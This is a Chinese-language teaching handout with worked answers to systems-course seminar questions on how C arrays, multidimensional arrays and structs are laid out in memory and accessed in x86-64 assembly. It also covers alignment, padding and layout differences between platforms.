| 主题 | 机器级的本质 |
|---|---|
| 数组 | 元素紧密排列在一段连续内存中；用下标算术（起始地址 + 下标 × 元素大小）定位元素 |
| 结构体 | 字段排列在一段连续内存中；用编译器确定的偏移访问；可能需要内部和外部填充以保证对齐 |
| 组合 | 结构体与数组可以任意嵌套，地址计算逐层叠加偏移 |
| 浮点 | 数据存放在 XMM 寄存器中并在其中运算，使用独立的指令和调用约定 |
第二部分 小班研讨题解答（第 7 讲）#
题目来自《ICS 小班研讨题和作业题（第 7 讲）》。“课件第 x 页”均指 2026 年课件 ICS07-machine-data-20260928。汇编用 gcc 13 实测（-Og，另加 -fno-asynchronous-unwind-tables -fcf-protection=none 去掉无关的伪指令和 endbr64）；所有数值结果都用 C 程序运行验证；Windows 与 IA32 的布局用 clang 18 交叉编译到对应平台验证。
研讨题 1：数组的机器级编程实现#
1（1）参照课件第 3 页，对于 short、long、float、int* 等数据类型的数组，画出各自在内存中的存放形式。

图 13 四种数组的内存布局（x 为起始地址，刻度为字节偏移）
四个数组都遵循同一条规则：T A[L] 占 字节，第 i 个元素从 开始。short s[6] 每个元素 2 字节，共 12 字节；long l[3] 每个 8 字节，共 24 字节；float f[5] 与 int val[5] 的布局完全相同（都是 4 字节一个元素，共 20 字节），区别只在于每 4 个字节按 IEEE 754 单精度解释而不是按补码解释——机器从布局上看不出类型，类型只体现在之后用什么指令访问它（整数指令还是 movss）；int *ip[3] 的每个元素是 8 字节的地址，共 24 字节，它们指向的 int 在别处，不属于这个数组。此外，由于这些数组的起始地址会按元素大小对齐（7.7 节），每个元素的地址也都是对齐的。
1（2）参照课件第 4~6 页，设计另一种数据类型的数组，给出类似的多种引用形式，并讲解各自对应的数值（可先让同学们试做）。
设 double d[4] = {1.5, -2.0, 0.25, 8.0};，起始地址为 x（x 是 8 的倍数）。每个元素 8 字节，所以指针每加 1，数值加 8。题目可以先只给“表达式”一列，让同学们填写类型和值：
| 表达式 | 类型 | 值 | 讲解 |
|---|---|---|---|
d[3] | double | 8.0 | 第 3 个元素，地址 x + 24 |
d | double * | x | 数组名当作指向 d[0] 的指针 |
d + 2 | double * | x + 16 | 按 sizeof(double) = 8 缩放 |
&d[1] | double * | x + 8 | 等价于 d + 1 |
*(d + 3) | double | 8.0 | 等价于 d[3] |
*d + 1 | double | 2.5 | * 的优先级高于 +：先取 d[0] = 1.5 再加 1 |
d[4] | double | ?? | 越界，读到数组后面的 8 字节 |
(char *)d + 8 | char * | x + 8 | 先转换成 char *，再加 8 只前进 8 字节，指向 d[1] |
sizeof(d) | size_t | 32 | 数组名作 sizeof 的操作数时不退化为指针 |
&d | double (*)[4] | x | 数值与 d 相同，但类型是“指向整个数组的指针” |
&d + 1 | double (*)[4] | x + 32 | 跨过整个数组（32 字节） |
这组练习比课件多了三个容易混淆的点：*d + 1 与 *(d + 1) 的区别（运算符优先级）；指针加法的步长由指针的类型决定，强制转换为 char * 后步长变为 1；d 与 &d 的数值相同而类型不同，因此 d + 1 是 x + 8，&d + 1 是 x + 32。数组名只在作为 sizeof 或 & 的操作数时不退化为指针。以上结果均经程序验证（sizeof(d) = 32，(char*)(&d+1) − (char*)d = 32）。
1（3）基于课件第 8~9 页，逐行逐个关键元素讲解汇编语言代码，并和 C 语言代码对应。
get_digit（p.8）只有一条关键指令：
| 汇编 | 关键元素 | 对应 C 代码 |
|---|---|---|
| （入口） | 按调用约定，第 1 个参数 z（数组首地址）在 %rdi，第 2 个参数 digit 在 %rsi（%esi） | int get_digit(zip_dig z, int digit)；形参 zip_dig z 实际上是 int *z |
movslq %esi, %rsi | （实测才有）把 32 位 digit 符号扩展为 64 位，以便参与地址计算 | 隐含的类型转换：int 下标 → 64 位地址偏移 |
movl (%rdi,%rsi,4), %eax | 寻址模式 (Rb,Ri,S)：地址 = %rdi + %rsi × 4；比例因子 4 = sizeof(int)；后缀 l 读 4 字节；目的 %eax 是返回值寄存器的低 32 位 | return z[digit];，即 *(z + digit) |
ret | 返回，结果在 %eax | 函数结束 |
zincr（p.9）是第 5 讲“跳转到中间”的 for 循环，i 是 size_t（无符号 64 位），放在 %rax 中：
| 汇编 | 关键元素 | 对应 C 代码 |
|---|---|---|
movl $0, %eax | 写 32 位寄存器会把高 32 位清零，所以等价于 movq $0,%rax 但编码更短 | i = 0 |
jmp .L3 | 无条件跳到循环测试处（跳转到中间） | 先测试条件 |
.L4: addl $1, (%rdi,%rax,4) | 目的操作数是内存 z + 4i，一条指令完成读、加 1、写回；后缀 l 表示操作 4 字节 int | z[i]++ |
addq $1, %rax | 64 位加法 | i++ |
.L3: cmpq $4, %rax | 计算 i − 4 设置条件码 | i < ZLEN 被改写为 i <= 4 |
jbe .L4 | 无符号“小于等于”则跳回循环体；用 jbe 而不是 jle，因为 i 是无符号的 size_t | 条件成立则继续循环 |
rep; ret | rep 前缀无实际作用，是为 AMD 处理器的分支预测优化（第 5 讲），新版 gcc 不再生成 | 函数返回 |
gcc 13 -Og 把 addl $1,(%rdi,%rax,4) 拆成 leaq (%rdi,%rax,4),%rcx; movl (%rcx),%esi; leal 1(%rsi),%edx; movl %edx,(%rcx) 四条（取地址、读、加 1、写），其余与课件相同，见 7.1 节。
1（4）基于课件第 8~9 页，设计一个新的 C 语言示例，展现二维数组的“行优先”存储方式。
用一个 2 行 3 列的 short 数组，既从地址上观察，也从汇编上观察：
#include <stdio.h>
short get3(short m[][3], long i, long j) { return m[i][j]; }
int main(void) {
short m[2][3] = {{10, 11, 12}, {20, 21, 22}};
short *flat = &m[0][0];
for (int i = 0; i < 2; i++)
for (int j = 0; j < 3; j++)
printf("&m[%d][%d] = m + %td flat[%d] = %d\n", i, j,
(char *)&m[i][j] - (char *)m, i * 3 + j, flat[i * 3 + j]);
return 0;
}运行输出的偏移依次为 0、2、4、6、8、10：m[0][2]（偏移 4）之后紧接着就是 m[1][0]（偏移 6），说明先存完整个第 0 行再存第 1 行，且 flat[i*3+j] 正好依次读出 10、11、12、20、21、22。get3 的 gcc 13 -Og 汇编把行优先公式 写得清清楚楚：
get3: # m in %rdi, i in %rsi, j in %rdx
leaq (%rsi,%rsi,2), %rax # 3*i （每行 3 个元素）
leaq (%rdi,%rax,2), %rax # m + 2*3*i （第 i 行的起始地址，行长 6 字节）
movzwl (%rax,%rdx,2), %eax # M[m + 6i + 2j] （在行内再偏移 j 个 short）
ret注意形参写成 short m[][3]：第一维可以省略，第二维 3 必须给出，因为地址计算要用到行长——这正是行优先存储的直接后果。
1（5）拓展研讨：调研哪些语言和 C 语言不同，二维数组没有采用“行优先”存储方式。它们采用了什么方式，出于什么原因。
与 C 的行优先相对的是列优先（column-major）：先存第 0 列的所有元素，再存第 1 列，即最左边的下标变化最快。元素 A(i,j)（下标从 0 计）在 R 行 C 列数组中的地址为 ，公式中只出现行数 R。采用列优先的主要语言和环境如下：
| 语言 / 环境 | 存储方式 | 原因 |
|---|---|---|
| Fortran（1957 起） | 列优先 | 最早的高级科学计算语言。数学和线性代数中常把矩阵看成若干列向量（Ax 是 A 的各列的线性组合），列优先使一列成为连续向量；这一选择从第一个 Fortran 编译器起就固定下来 |
| MATLAB、GNU Octave、Scilab | 列优先 | MATLAB 最初就是为方便调用 Fortran 的 LINPACK/EISPACK 库而写的，沿用了 Fortran 的布局，可以零拷贝地把矩阵交给这些库 |
| R | 列优先 | 面向统计，数据矩阵的一列是一个变量；底层大量调用 Fortran 写的 BLAS/LAPACK |
| Julia | 列优先 | 面向数值计算，有意与 Fortran、MATLAB 和 BLAS/LAPACK 保持一致 |
| NumPy（Python） | 默认行优先，可选列优先 | order='C' 为行优先、order='F' 为列优先，便于与 C 库和 Fortran 库交换数据 |
| Eigen（C++ 库）、OpenGL 的矩阵 | 默认列优先 | 与线性代数习惯和 GPU 接口约定一致 |
| Java、C#（交错数组）、Python 列表的列表 | 既非行优先也非列优先 | 二维数组是“数组的数组”，即 7.3 节的多级数组，各行独立分配 |
存储方式之所以重要，是因为它决定了哪种循环顺序访问的是连续内存。C 中应让最内层循环改变最右边的下标（按行遍历），Fortran 中则应让最内层循环改变最左边的下标（按列遍历），否则每次访问都跳过一整行（或一整列），缓存命中率大幅下降，第 12 讲（存储器层次结构）会定量分析这一点。跨语言调用时，C 的 a[i][j] 对应 Fortran 的 A(j,i)，相当于做了一次转置，这在混合编程中是常见的错误来源。
1（6）基于课件第 13 页，逐行逐个关键元素讲解汇编语言代码，和 C 语言代码对应，并对照解读第 12 页的公式。对课件第 15/14 页，同样要求。
先看第 12 页的公式：在 int A[R][C] 中，第 i 行 A[i] 是一个含 C 个 int 的数组，起始地址为 。对 pgh[4][5]，C = 5，K = 4，所以 的地址为 。第 13 页的代码要计算的就是这个值：
| 汇编（p.13） | 关键元素 | 对应 C / 公式 |
|---|---|---|
| （入口） | index 在 %rdi（实测先 movslq %edi,%rdi 把 int 扩展为 64 位） | int *get_pgh_zip(int index) |
leaq (%rdi,%rdi,4), %rax | lea 只算地址不访存：%rax = index + 4·index = 5·index | 每行 C = 5 个元素 |
leaq pgh(,%rax,4), %rax | 位移为符号 pgh（全局数组地址，链接时确定），无基址寄存器，变址 %rax，比例 4：%rax = pgh + 4·5·index | ，其中 C·K = 20 |
ret | 返回值是地址，不访问内存 | return pgh[index];（退化为 int *） |
再看第 14 页的公式：元素 A[i][j] 的地址为 。对 pgh，即 。第 15 页的代码采用后一种形式，先算括号内的下标再乘 4：
| 汇编（p.15） | 关键元素 | 对应 C / 公式 |
|---|---|---|
| （入口） | index 在 %rdi，dig 在 %rsi（实测先用两条 movslq 扩展为 64 位） | int get_pgh_digit(int index, int dig) |
leaq (%rdi,%rdi,4), %rax | %rax = 5·index | |
addl %rax, %rsi（应为 addq） | %rsi = 5·index + dig；课件写成 addl 是笔误，l 后缀不能配 64 位寄存器 | |
movl pgh(,%rsi,4), %eax | 一次访存：地址 = pgh + 4·(5·index + dig)；读 4 字节放入 %eax | ，return pgh[index][dig]; |
两段代码的对比很能说明问题：p.13 用 leaq 结尾，返回的是一个地址（一整行），不访问内存；p.15 用 movl 结尾，真正从内存读出一个元素。两者都用“lea 乘 5 + 比例因子 4”凑出乘 20，避免了乘法指令。
1（7）基于课件第 16~17 页，逐行逐个关键元素讲解汇编语言代码，和 C 语言代码对应，并分析和第 15 页代码的异同。
| 汇编（p.17） | 关键元素 | 对应 C |
|---|---|---|
| （入口） | index 在 %rdi，digit 在 %rsi，都是 size_t，不需要扩展 | int get_univ_digit(size_t index, size_t digit) |
salq $2, %rsi | 左移 2 位：%rsi = 4·digit，是元素在行内的字节偏移 | digit * sizeof(int) |
addq univ(,%rdi,8), %rsi | 源操作数是内存 M[univ + 8·index]，即第 index 个指针（8 字节，比例因子 8）；第一次访存，读出的行地址加到 %rsi 上 | p = univ[index] + digit |
movl (%rsi), %eax | 第二次访存：从行内地址读 4 字节 int | return *p; |
ret |
gcc 13 实测为 movq univ(,%rdi,8),%rax; movl (%rax,%rsi,4),%eax：先把指针读到 %rax，再用比例变址寻址一次完成“+4·digit 并读取”，同样是两次访存。与第 15 页的异同：
| p.15 嵌套数组 pgh[index][dig] | p.17 多级数组 univ[index][digit] | |
|---|---|---|
| 相同点 | 都由“行”和“列”两级下标定位元素；行内偏移都是 4·列下标；都用比例变址寻址 | 同左 |
| 地址公式 | ，全部是算术 | ，行地址要从内存读出 |
| 访存次数 | 1 次 | 2 次 |
| 行的大小 | 编译器必须知道每行 20 字节（所以出现乘 5、乘 4） | 编译器不需要知道每行多长，比例因子 8 是指针的大小 |
| 参数类型 | int，需 movslq 扩展 | size_t，可直接使用 |
1（8）基于课件第 19 页及后续相关内容，说明 C 语言中传参 n×n 矩阵（二维数组）时，如果 n 是变量，应该如何传递。
首先要明白为什么这是个问题：传递二维数组时实际传的是指向第 0 行的指针，类型为 int (*)[C]，被调用函数要计算 ，必须知道行长 C。C 固定时可以写 int a[][16]；C 是变量时，有以下几种做法：
| 方法 | 写法 | 说明 |
|---|---|---|
| ① 变长数组形参（C99 VLA，课件 p.21） | int var_ele(size_t n, int a[n][n], size_t i, size_t j)调用： var_ele(n, m, i, j) | 推荐。n 必须在 a 之前声明；可写 int a[][n] 或 int (*a)[n]；编译器自动生成 imulq 计算 n·i。调用方的数组可以是 VLA 局部变量，或 int (*m)[n] = malloc(sizeof(int[n][n])); 动态分配 |
| ② 一维指针 + 手工下标（课件 p.19 vec_ele） | int vec_ele(size_t n, int *a, size_t i, size_t j){ return a[i*n + j]; } | 传统写法，任何 C 编译器都支持；调用时传 &m[0][0] 或 (int *)m；缺点是下标要自己算、易错 |
| ③ 指针数组（多级数组，课件 p.16） | int get(int **a, size_t i, size_t j){ return a[i][j]; } | 先分配 n 个行指针，再为每行分配空间；写法自然，但每次访问要两次访存，各行不连续，不能直接传真正的二维数组 |
这里有两个常见错误：（1）把 int m[N][N] 直接传给形参 int **a——类型不兼容，m 退化为 int (*)[N]（指向数组的指针）而不是 int **（指向指针的指针），强制转换后运行时会把矩阵元素当作地址去访问，必然出错；（2）写 int a[][]——第二维不能省略。另外要注意可移植性：C11 把 VLA 改为可选特性（实现可以定义 __STDC_NO_VLA__），MSVC 至今不支持 VLA，所以跨平台代码常用方法②。
1（9）在课件第 23 页代码的基础上，修改 result 的表达式，设计至少两种，然后讲解计算过程（可先让同学们试做）。
先回顾 pgh 的数据：pgh 的 4 行依次为 {1,5,2,0,6}、{1,5,2,1,3}、{1,5,2,1,7}、{1,5,2,2,1}，一维下标 k = 5·行 + 列；linear_zip 指向下标 0，zip2 指向第 2 行开头，即一维下标 10。计算的诀窍是全部换算成一维下标再查表：
| 设计 | 各项 | 换算为一维下标 | 值 | 结果 |
|---|---|---|---|---|
| 表达式 A | pgh[1][4]linear_zip[12]zip2[3] | 5×1 + 4 = 9 → 第 1 行第 4 个 12 = 5×2 + 2 → pgh[2][2] 10 + 3 = 13 → pgh[2][3] | 3 2 1 | 6 |
| 表达式 B | *(*(pgh+3)+2)linear_zip[19]pgh[2][-1] | pgh+3 指向第 3 行，再偏移 2 → 17 19 → pgh[3][4]（最后一个元素） 5×2 − 1 = 9 → pgh[1][4] | 2 1 3 | 6 |
| 表达式 C | zip2[-3]*(pgh[3] - 1)pgh[0][7] | 10 − 3 = 7 → pgh[1][2] 15 − 1 = 14 → pgh[2][4] 0 + 7 = 7 → pgh[1][2] | 2 7 2 | 11 |
三个表达式的运行结果分别为 6、6、11，与上表一致。讲解要点：*(*(pgh+3)+2) 中，pgh+3 的类型是 int (*)[5]，加 3 跨过 3 行（60 字节）；解引用一次得到第 3 行（int[5]，退化为 int *），再加 2 只跨过 2 个 int——同样是“+”，步长由指针类型决定。pgh[2][-1]、pgh[0][7] 和 zip2[-3] 说明下标越过行边界时，机器仍然只是按公式算地址，结果落到相邻行；这类写法在 C 标准中属于未定义行为（下标超出了子数组的范围），gcc 实际按线性地址访问，但不应在正式代码中使用。
研讨题 2：结构体的机器级编程实现#
2（1）基于课件第 25 页，讲解结构体在内存中存放的基本原则。
以 struct rec { int a[4]; size_t i; struct rec *next; } 为例（图 4），结构体的存放原则可以归纳为四条。第一，连续存放意味着整个结构体是一块连续内存，大小足以容纳所有字段（这里 32 字节）。第二，按声明顺序意味着字段在内存中的顺序与声明顺序相同，第一个字段的偏移一定是 0，所以指向结构体的指针也就是指向其第一个字段的指针；即使换一种顺序能更紧凑，编译器也不会调整（研讨题 2（9））。第三，布局由编译器确定：每个字段的偏移和整个结构体的大小在编译时由编译器根据对齐规则算好，可能在字段之间和末尾插入填充（研讨题 2（3））。第四，机器级程序并不知道结构体的存在：汇编代码中没有“字段名”，访问 r->i 就是访问 r + 16 处的 8 字节，访问 r->next 就是读 r + 24 处的 8 字节，字段偏移以常数位移的形式直接写进指令。
2（2）基于课件第 26~27 页，逐行逐个关键元素讲解汇编语言代码，并和 C 语言代码对应。
| 汇编（p.26 get_ap） | 关键元素 | 对应 C |
|---|---|---|
| （入口） | r 在 %rdi，idx 在 %rsi | int *get_ap(struct rec *r, size_t idx) |
leaq (%rdi,%rsi,4), %rax | lea 只算地址：r + 0 + 4·idx；字段 a 偏移为 0 所以位移省略，比例 4 = sizeof(int) | return &r->a[idx]; |
ret | 返回地址值 |
p.27 的 set_val 中结构体的 i 改成了 int（偏移仍是 16，后面 4 字节填充），寄存器 %rdi = r，%rsi = val（低 32 位 %esi）：
| 汇编（p.27） | 关键元素 | 对应 C |
|---|---|---|
.L11: | 循环开始标号（do-while 形式，入口处的 r != NULL 测试课件未画出） | while (r) { |
movslq 16(%rdi), %rax | 位移 16 = 字段 i 的偏移；读 4 字节 int 并符号扩展为 64 位（要作下标） | int i = r->i; |
movl %esi, (%rdi,%rax,4) | 写 4 字节：地址 r + 4·i（a 的偏移 0）；源是 val 的低 32 位 | r->a[i] = val; |
movq 24(%rdi), %rdi | 读 8 字节指针：偏移 24 的 next；直接覆盖 %rdi | r = r->next; |
testq %rdi, %rdi | r & r，设置 ZF：r 为 NULL 时 ZF = 1 | 测试 r |
jne .L11 | ZF = 0（r ≠ NULL）则跳回循环 | } |
gcc 13 -Og 实测的循环体三条指令与课件完全相同，只是入口处多了 jmp .L13 跳到测试处（跳转到中间形式）。整个函数没有任何关于结构体的“类型信息”，只有 16、24 这些偏移常数，正是 2（1）第四条原则的体现。
2（3）基于课件第 28~30 页，设计一个类似但不同于第 28 页的结构体示例，包含第 30 页中的 1/2/4/8 字节的数据类型，对照讲解第 29 页的对齐原则，分析内存里数据对齐存放有哪些好处。
struct T { /* 偏移 对齐要求 K 说明 */
char a; /* 0 1 任意地址 */
double d; /* 8 8 跳过 1~7 共 7 字节，取到 8 的倍数 */
short s; /* 16 2 16 是 2 的倍数，无需填充 */
int i; /* 20 4 18 不是 4 的倍数，补 2 字节 */
char b; /* 24 1 紧接着放 */
long *p; /* 32 8 跳过 25~31 共 7 字节 */
}; /* sizeof = 40，整体 K = 8，40 已是 8 的倍数 */按第 29 页的原则逐个检查：每个基本类型的地址都是自身大小 K 的倍数——a（K=1）在 0，d（K=8）在 8，s（K=2）在 16，i（K=4）在 20，b（K=1）在 24，p（K=8）在 32。字段本身共 1+8+2+4+1+8 = 24 字节，填充却有 7+2+7 = 16 字节。若按对齐要求从大到小改写为 {double d; long *p; int i; short s; char a; char b;}，偏移依次为 0、8、16、20、22、23，sizeof 只有 24，没有任何填充（实测）。
对齐有几方面的好处（结合课件 p.29）：
第一，一次访存即可取得数据：内存系统以对齐的块为单位传送数据（课件说 4 或 8 字节，现代 CPU 与缓存之间以 64 字节缓存行为单位）。对齐的 K 字节数据一定落在一个块内；不对齐的数据可能跨越两个块甚至两个缓存行，需要两次访问再拼接。
第二，不会跨越页边界：对齐的数据不会一半在一页、一半在另一页，避免一次访存触发两次地址翻译甚至两次缺页（课件 “Virtual memory trickier”）。
第三，硬件更简单，原子性有保证：对齐的读写可以直接与数据通路对接；在 x86-64 上，对齐的 8 字节读写是原子的，多线程程序（第 25 讲之后）依赖这一点。
第四，满足某些指令和体系结构的硬性要求：SSE 的 movaps/movapd 要求 16 字节对齐，否则触发异常；ARM、RISC-V、MIPS 等许多处理器的不对齐访问要么出错、要么由软件模拟而非常慢。
代价是浪费空间（上例中 40 字节中有 16 字节是填充），以及程序员需要关心字段顺序。
2（4）设计几个结构体示例，用 C 标准库中的 offsetof 宏查看各元素的地址偏移量。
#include <stdio.h>
#include <stddef.h> /* offsetof 定义在这里 */
struct D1 { char c; short s; int i; long l; }; /* 从小到大 */
struct D2 { char c; long l; short s; int i; }; /* 大小交错 */
struct D3 { long l; int i; short s; char c; }; /* 从大到小 */
struct E { char c; struct { char a; double b; } in; short s; }; /* 嵌套 */
struct F { char c; long double x; }; /* 16 字节对齐 */
#define P(T, m) printf(" %-4s offset %2zu\n", #m, offsetof(struct T, m))
int main(void) {
printf("D1 size %zu\n", sizeof(struct D1)); P(D1,c); P(D1,s); P(D1,i); P(D1,l);
printf("D2 size %zu\n", sizeof(struct D2)); P(D2,c); P(D2,l); P(D2,s); P(D2,i);
printf("D3 size %zu\n", sizeof(struct D3)); P(D3,l); P(D3,i); P(D3,s); P(D3,c);
printf("E size %zu\n", sizeof(struct E)); P(E,c); P(E,in); P(E,in.b); P(E,s);
printf("F size %zu\n", sizeof(struct F)); P(F,c); P(F,x);
}| 结构体 | 各字段偏移（实测） | sizeof | 分析 |
|---|---|---|---|
| D1 | c 0，s 2，i 4，l 8 | 16 | 从小到大排列也能很紧凑：c 后只补 1 字节，s、i 恰好填满前 8 字节 |
| D2 | c 0，l 8，s 16，i 20 | 24 | c 后补 7 字节；s 后补 2 字节；同样的字段比 D1 多 8 字节 |
| D3 | l 0，i 8，s 12，c 14 | 16 | 从大到小：字段间无填充，末尾补 1 字节到 8 的倍数 |
| E | c 0，in 8，in.b 16，s 24 | 32 | 嵌套结构体 in 的对齐要求是其内部最大的 8，所以 in 从 8 开始；in 自身大小 16；s 后补 6 字节 |
| F | c 0，x 16 | 32 | long double 在 Linux x86-64 上占 16 字节、16 字节对齐，c 后补 15 字节 |
offsetof(type, member) 是编译时常量，常见的实现是 ((size_t)&((type *)0)->member)：假设结构体位于地址 0，取字段的地址就得到偏移（gcc 实际用内建函数 __builtin_offsetof）。Linux 内核中著名的 container_of 宏就是用 offsetof 从字段指针反推出整个结构体的地址。
2（5）拓展研讨：课件第 30 页中特别标注的“（GCC on Linux）”，调研其它情况下（例如 Windows）是用什么规则。
“GCC on Linux”只是标在 long double 这一行，说明这条规则依赖于平台的 ABI。对齐规则的基本思想（每种类型按自身对齐要求放置、结构体按最大对齐要求取整）各平台相同，差别在于类型的大小和某些类型的对齐要求。用 clang 18 对同一段代码交叉编译到不同平台，sizeof 和 offsetof 的实测结果如下：
表 8 不同平台上的大小与对齐（clang 18 交叉编译实测）
| 平台 | long | long double | {char; double} | {char; long double} | {char; long} |
|---|---|---|---|---|---|
| x86-64 Linux（gcc/clang） | 8 | 16 字节，16 对齐 | 16（d 在 8） | 32（在 16） | 16 |
| x86-64 Windows（MSVC） | 4 | 8 字节（与 double 相同） | 16（d 在 8） | 16（在 8） | 8 |
| x86-64 Windows（MinGW gcc） | 4 | 16 字节，16 对齐 | 16 | 32 | 8 |
| IA32 Linux（gcc -m32） | 4 | 12 字节，4 对齐 | 12（d 在 4） | 16（在 4） | 8 |
| IA32 Windows（MSVC） | 4 | 8 字节 | 16（d 在 8） | 16（在 8） | 8 |
主要差别有三点。（1）Windows 采用 LLP64 模型，long 只有 4 字节（Linux 为 LP64，long 8 字节），所以 {char; long} 在 Windows 上只有 8 字节；可移植代码应使用 int64_t、size_t 等确定大小的类型。（2）long double 的宽度也不同：MSVC 中 long double 就是 double（8 字节）；Linux x86-64 中是 x87 的 80 位扩展精度，存储时占 16 字节并按 16 对齐；IA32 Linux 中占 12 字节、按 4 对齐。（3）IA32 Linux 的 double 在结构体中只按 4 字节对齐（i386 System V ABI 的历史规定），所以 {char; double} 只有 12 字节；而 Windows 的 IA32 一直按 8 字节对齐 double。gcc 的 -malign-double 选项可以改变这一行为，但会破坏与系统库的 ABI 兼容。
此外，各编译器都提供了改变默认对齐的手段：#pragma pack(n)（MSVC 和 gcc 都支持，把对齐上限设为 n）、gcc 的 __attribute__((packed))（完全不填充）和 __attribute__((aligned(n)))、MSVC 的 __declspec(align(n))，以及 C11 标准的 _Alignas/alignas。位域（bit-field）的布局在 MSVC 和 gcc 之间也不相同（gcc 为此提供了 ms_struct 属性）。这些都是 ABI 的一部分，第 6 讲研讨题 1（3）所说的“软件约定”正是如此。
2（6）基于课件第 31~33 页，分析结构体的起始地址的要求，为什么不可以按照结构体中第 1 个元素的对齐要求。
这里的规则是：结构体的起始地址必须是 K 的倍数，K 为所有字段中最大的对齐要求，而不是第 1 个字段的对齐要求。原因在于字段的偏移是编译时确定的相对量，而对齐要求针对的是绝对地址。以 S1 {char c; int i[2]; double v;} 为例，v 的偏移是 16，它的绝对地址是 p + 16。编译器只能保证 16 是 8 的倍数，要使 p + 16 也是 8 的倍数，p 本身必须是 8 的倍数。如果只按第 1 个字段 char 的要求（K = 1），p 可能是 0x1001，于是 i[0] 落在 0x1005、v 落在 0x1011，所有字段都不对齐，编译器精心插入的填充全部白费。
反过来，只要起始地址是最大对齐要求 K 的倍数，由于每个字段的偏移都是自身对齐要求 的倍数，且 都整除 K（对齐要求都是 2 的幂），所有字段的绝对地址都自动对齐。这个要求还要配合“总长度是 K 的倍数”（p.32–33）：在结构体数组中，a[1] 的起始地址是 a + sizeof，只有 sizeof 也是 K 的倍数，后续每个元素的起始地址才都满足要求。正因为如此，malloc 返回的地址总是按最严格的基本类型对齐（x86-64 Linux 上为 16 字节，即 max_align_t 的对齐），编译器分配栈上的结构体时也会按其 K 对齐。
2（7）基于课件第 34 页，逐行逐个关键元素讲解汇编语言代码，并和 C 语言代码对应。
struct S3 { short i; float v; short j; } a[10];：i 在 0（2 字节），v 要 4 对齐放在 4，j 在 8，结构体 K = 4，sizeof = 12（图 7）。a[idx].j 的地址为 。
| 汇编（p.34） | 关键元素 | 对应 C / 地址公式 |
|---|---|---|
| （入口） | idx 在 %rdi（实测先 movslq %edi,%rdi 扩展 int） | short get_j(int idx) |
leaq (%rdi,%rdi,2), %rax | %rax = idx + 2·idx = 3·idx | 为凑出 12·idx = 4·(3·idx) |
movzwl a+8(,%rax,4), %eax | 位移 a+8：数组地址 a 加上字段 j 的偏移 8（a 由链接器确定）；变址 %rax、比例 4 → 地址 a + 8 + 12·idx；movzwl 读 2 字节（w）并零扩展（z）到 32 位（l） | return a[idx].j;，即 |
ret | 返回值在 %ax（%eax 的低 16 位） |
这里有两个关键数字：12 是 sizeof(struct S3)，包含了对齐填充，所以数组元素之间的步长是 12 而不是 2 + 4 + 2 = 8；8 是字段 j 的偏移，被直接合并进寻址模式的位移中。整个地址计算只用了一条 lea 和一次访存。
2（8）根据课件第 35 页，说明如何节省结构体的空间。
课件 p.35 给出的方法是把对齐要求大的字段放在前面：S4 {char c; int i; char d;} 中 c 后补 3 字节、d 后补 3 字节，共 12 字节；S5 {int i; char c; char d;} 中两个 char 紧跟在 int 之后，只在末尾补 2 字节，共 8 字节，节省了三分之一。一般规则是按对齐要求从大到小排列字段：这样每个字段的偏移自然是其对齐要求的倍数，字段之间不会有填充，只有末尾可能有少量填充（不超过 K − 1 字节）。2（3）的 struct T 从 40 字节降到 24 字节，2（4）的 D2 改成 D3 的顺序从 24 降到 16，都是这条规则的应用。
其他节省空间的手段包括：选用够用的最小类型（如用 uint8_t 存小范围的值、用 float 代替不需要高精度的 double）；把多个布尔标志合并为位域或位掩码；用 __attribute__((packed)) 或 #pragma pack(1) 取消填充——但这会产生不对齐访问，降低速度，在某些体系结构上还会出错，通常只用于网络协议头、文件格式等必须精确匹配字节布局的场合。gcc 的 -Wpadded 选项可以在编译器插入填充时给出警告，Linux 上的 pahole 工具可以列出结构体中所有的“空洞”。需要注意，节省空间并不总是首要目标：把经常一起访问的字段放在一起（即使多一点填充）往往对缓存更有利。
2（9）编译器会为了节省空间，主动调整结构体中的元素顺序吗？无论会与不会，都分析原因和影响。
C 编译器不会。C 标准（C11 6.7.2.1 第 15 段）明确规定：结构体成员的地址按声明顺序递增，第一个成员位于偏移 0，可以在成员之间和末尾填充，但不能在开头填充。gcc、clang、MSVC 都严格遵守这一点（gcc 历史上有过实验性的 -fipa-struct-reorg，只在能证明结构体从不逃逸出程序时才重排，后来被移除）。不重排的原因有以下几个方面：
第一是 ABI 与独立编译：同一个结构体可能在多个源文件、多个库中使用，它们由不同编译器、不同时间、不同优化级别编译。只有布局是由声明唯一确定的，各方才能对字段偏移达成一致。若编译器可以自行重排，所有相关代码都必须用同一种重排算法，与第 6 讲讨论的 ABI 问题一样。
第二是程序依赖成员顺序：指向结构体的指针可以转换为指向第一个成员的指针（常用于在 C 中模拟继承，如 struct derived { struct base b; ... }）；联合中的多个结构体可以通过“公共初始序列”访问相同的前几个字段；offsetof、container_of 依赖确定的偏移。
第三是与外部数据精确匹配：网络协议头、文件格式（如 ELF 头、BMP 头）、硬件寄存器映射、与汇编代码共享的数据结构，都要求字段在确定的位置。
第四是程序员可能有意如此安排：把经常一起访问的字段放在相邻位置以提高缓存命中率，或把被不同线程频繁写的字段分开以避免伪共享（第 12、26 讲），编译器擅自重排会破坏这些优化。
